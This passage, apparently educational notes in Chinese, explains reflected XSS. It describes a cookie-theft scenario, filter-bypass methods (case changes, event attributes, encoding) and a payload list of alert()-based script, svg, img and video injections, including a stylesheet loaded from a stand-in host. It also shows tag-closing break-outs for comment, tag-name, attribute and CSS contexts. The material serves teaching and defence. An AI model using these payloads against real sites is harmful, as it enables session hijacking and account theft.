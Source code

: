 原理：通过构造恶意链接，用户点击后能在用户浏览器触发链接中的脚本执行(服务器中没有这样的页面和内容)。一般容易出现在搜索页面。该漏洞是非持久化的，且需要与用户进行交互。 反射型XSS大多数是用来盗取用户的Cookie信息。攻击过程如下：

+ Alice发现站点存在反射性的XSS漏洞，利用网站的反射型XSS漏洞编写了一个exp，做成链接的形式，并利用各种手段诱使站点的用户Bob点击
+ Bob在登录到B站点后，点击了Alice提供的恶意链接，恶意脚本在Bob的浏览器中执行
+ 此脚本盗窃敏感信息(cookie、帐号信息等信息)，然后在Bob完全不知情的情况下将这些信息发送给Alice
+ Alice利用获取到的cookie就可以Bob的身份登录B站点。如果脚本的功更强大的话，Alice还可以对Bob的浏览器做控制并进一步利用漏洞控制

## 对抗

一般程序员都会用一些函数将构成xss代码的一些关键字符给过滤了。可是道高一尺魔高一丈，虽然过滤了，但还可以进行过滤绕过，以达到XSS攻击的目的。主要方法如下：

+ 通过更改标签，如大小写替换、空格/回车/Tab分割、标签内含`<img src=1 οnerrοr=alert('hack')>`
+ 通过标签属性，如src加载、onload事件
+ 通过重新编码，如部分或全部的HEX编码、ASCII编码

更多绕过见文章[《XSS过滤绕过速查表》](https://www.freebuf.com/articles/web/153055.html)，实践见文章[《印尼电商平台Tokopedia的反射型XSS漏洞》](https://www.freebuf.com/vuls/207025.html)。

XSS的攻击载荷常见的有如下地点：

```js
// 以下所有标签的>都可以用//代替， 例如<script>alert(1)</script//
<link rel="stylesheet" href="http://www.xxx.com/atack.css"></link>

<script src="..."></script>

<style onload=alert(1)></style>
<style>@import ‘javascript:alert(‘hack‘);‘</style>

<svg onload=alert(1)/>
<svg onload=alert(1)///

<img src = "javascript:alert(‘hack‘);"/>
<img src=1 onerror=alert("hack")/>
<img src=1 onerror=alert("hack")///

<video src = "javascript:alert(‘hack‘);"/>
<video src=1 onloadstart=alert(1)/>
```

XSS可以插入的地方有用户输入作为script标签内容、用户输入作为HTML标签名、用户输入作为HTML标签的属性值、用户输入作为HTML注释内容、直接插入到CSS里。举例如下：

```
#用户输入作为HTML注释内容，导致攻击者可以进行闭合绕过
<!-- 用户输入 -->
<!-- --><script>alert('hack')</script><!-- -->

#用户输入作为标签名，导致攻击者可以进行闭合绕过
<用户输入  id="xx" />
<><script>alert('hack')</script><b id="xx" />

#用户输入作为标签属性值，导致攻击者可以进行闭合绕过
<div id="用户输入"></div>
<div id=""></div><script>alert('hack')</script><div a="x"></div>

#用户输入作为标签属性名，导致攻击者可以进行闭合绕过
<div 用户输入="xx">  </div>
<div ></div><script>alert('hack')</script><div a="xx"> </div>

#用户输入作为CSS内容，导致攻击者可以进行闭合绕过
<style>用户输入<style>
<style></style><script>alert('hack')</script><style></style>
```
